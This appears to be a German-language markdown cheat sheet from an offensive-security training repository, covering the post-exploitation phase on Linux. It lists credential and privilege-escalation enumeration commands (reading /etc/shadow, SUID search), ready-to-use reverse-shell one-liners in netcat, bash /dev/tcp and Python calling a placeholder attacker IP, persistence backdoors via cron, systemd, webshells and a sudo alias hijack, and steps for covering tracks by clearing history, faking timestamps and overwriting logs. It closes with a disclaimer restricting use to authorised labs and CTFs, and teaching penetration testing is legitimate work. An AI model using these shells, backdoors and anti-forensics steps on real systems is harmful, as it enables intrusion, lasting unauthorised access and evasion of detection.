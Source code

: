# 🧪 postExploitationTools.md




## Inhaltsverzeichnis
- [Einleitung](#einleitung)
- [Nützliche Tools & Hilfsmittel](#nützliche-tools--hilfsmittel)
- [Reverse Shell Snippets](#reverse-shell-snippets)
- [Web-basierte Tools](#web-basierte-tools)
- [Persistenz-Techniken (nur zu Testzwecken!)](#persistenz-techniken-nur-zu-testzwecken)
- [Spuren verwischen](#spuren-verwischen)
- [Siehe auch](#siehe-auch)
- [Haftungsausschluss](#haftungsausschluss)



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Einleitung

Nach einem erfolgreichen Angriff (z. B. durch RCE oder SQL-Injection) beginnt die sogenannte **Post-Exploitation-Phase**.  
Hierbei geht es nicht mehr darum, _in ein System einzudringen_, sondern darum, was man _innerhalb_ des kompromittierten Systems erreichen kann.

### Ziele der Post-Exploitation:

- **System- und Benutzerinformationen sammeln**
- **Persistenz herstellen**
- **Privilege Escalation (z. B. root-Rechte erlangen)**
- **Datenexfiltration**
- **Pivoting** (Zugriff auf weitere Systeme)
- **Verdeckte Backdoors / Remote Access installieren**



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Nützliche Tools & Hilfsmittel

### 🛠️ Lokale Tools auf dem Zielsystem

| Befehl / Tool     | Funktion |
|-------------------|----------|
| `uname -a`        | OS- und Kernel-Version anzeigen |
| `id`              | Aktueller Benutzer & Gruppen |
| `whoami`          | Aktueller Benutzername |
| `ps aux`          | Laufende Prozesse |
| `netstat -tulnp`  | Netzwerkverbindungen |
| `ss -tulnp`       | Modernere Alternative zu netstat |
| `find / -perm -4000` | SUID-Dateien (für Privilege Escalation) |
| `cat /etc/passwd` | Benutzerkonten anzeigen |
| `cat /etc/shadow` | Passwort-Hashes (nur als root lesbar) |
| `sudo -l`         | Prüfen, ob sudo-Rechte bestehen |
| `ls -la /home`    | Benutzerverzeichnisse |
| `ls -la /root`    | Root-Verzeichnis (falls zugänglich) |
| `history`         | Kommandoverlauf des aktuellen Benutzers |



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

### 📦 Tools für Dateidownloads & Kommandozugriff

| Tool / Methode | Beschreibung |
|----------------|--------------|
| `wget` / `curl` | Dateien herunterladen (z. B. Backdoor, Binary) |
| `nc` (Netcat)   | Reverse Shells, Dateiübertragung |
| `python3 -m http.server` | HTTP-Dateifreigabe vom Angreifer aus |
| `scp`           | Dateiübertragung via SSH |
| `bash -i >& /dev/tcp/IP/PORT 0>&1` | Bash-Reverse-Shell |
| `socat`         | Stabile Reverse Shells & Tunnels |
| `ssh-keygen` & `authorized_keys` | Persistenz durch SSH-Key-Hinterlegung |



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Reverse Shell Snippets

### Netcat Reverse Shell:
```bash
nc -e /bin/bash YOUR-IP 4444
```


<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


### Bash Reverse Shell:
```bash
bash -i >& /dev/tcp/YOUR-IP/4444 0>&1
```

### Python Reverse Shell:
```python
python3 -c 'import socket,subprocess,os; s=socket.socket(); s.connect(("YOUR-IP",4444)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh"])'
```



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Web-basierte Tools

| Tool                        | Beschreibung                                                     |
| --------------------------- | ---------------------------------------------------------------- |
| **LinPEAS**                 | Automatisierte Linux-Enum (Privilege Escalation)                 |
| **WinPEAS**                 | Windows-Enum (User, Services, Permissions)                       |
| **PowerUp**                 | PowerShell-basierte Privilege Escalation für Windows             |
| **pspy**                    | Beobachtet Prozesse ohne root                                    |
| **GTFOBins**                | Liste legitimer Linux-Kommandos, die zu Escalation führen können |
| **LOLBAS**                  | Windows-Äquivalent zu GTFOBins                                   |
| **chisel**                  | Tunneling Tool für Pivoting                                      |
| **sshuttle**                | VPN-ähnliches Tool für Netzwerktunneling                         |
| **Metasploit Post Modules** | z. B. Token Dumping, Hash Dumping etc.                           |



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Persistenz-Techniken (nur zu Testzwecken!)

| Technik                             | Beispiel                           |
| ----------------------------------- | ---------------------------------- |
| SSH-Key im `~/.ssh/authorized_keys` | Dauerhafter Zugriff über Key       |
| Cronjob Backdoor                    | Automatisierte Shell bei Neustart  |
| Systemd-Service Backdoor            | `.service`-Datei mit Reverse Shell |
| Webshell in `/var/www/html`         | PHP-Webshell auf dem Webserver     |
| Bash-Alias Hijacking                | `.bashrc` mit `alias sudo='...'`   |



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Spuren verwischen

| Methode      | Beschreibung                           |
| ------------ | -------------------------------------- |
| `history -c` | Shell-History löschen                  |
| `touch -d`   | Dateizeitstempel manipulieren          |
| `shred`      | Dateien sicher löschen                 |
| `logrotate`  | Logdateien überschreiben oder rotieren |

⚠️ Viele dieser Methoden sind leicht detektierbar – nicht „invisible“!



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Siehe auch:

- [sql_injection_to_shell.md](/03-web-security/injektionen/sql-injection-cheatsheet.md)
- [php_rce_cheat_sheet.md](/03-web-security/webshells/php_rce_cheat_sheet.md)
- [union_based_attack.md](/13-vulnerabilities/sqlInjection/union_based_attack.md)



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Haftungsausschluss

Dieses Repository dient ausschließlich zu Ausbildungs-, Forschungs- und Demonstrationszwecken im Bereich der IT-Sicherheit.

Alle hier dokumentierten Techniken und Tools dürfen nur in legalen und autorisierten Testumgebungen verwendet werden – z. B. in Labors, CTFs oder mit ausdrücklicher Genehmigung des Eigentümers der Zielsysteme.

Wir distanzieren uns ausdrücklich von jeglicher illegalen Nutzung.
Dieses Projekt richtet sich an White-Hat-Sicherheitsforscher, Ethical Hacker und Auszubildende, die ethisch und rechtlich korrekt handeln.

[Disclaimer](/00-disclaimer/disclaimer.md)

--- 

Stay curious – stay secure. 🔐

🗓️ **Letzte Aktualisierung:** August 2025  
🤝 **Pull Requests willkommen** – Vorschläge für neue Kurse oder Kategorien gerne einreichen!

---